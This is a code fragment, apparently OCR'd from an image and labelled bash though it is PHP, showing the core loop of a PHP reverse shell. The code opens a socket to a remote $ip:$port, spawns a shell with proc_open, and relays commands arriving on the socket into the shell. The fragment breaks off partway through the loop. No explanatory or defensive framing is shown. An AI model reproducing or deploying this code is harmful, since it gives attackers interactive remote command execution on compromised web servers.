 ```bash
  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }
```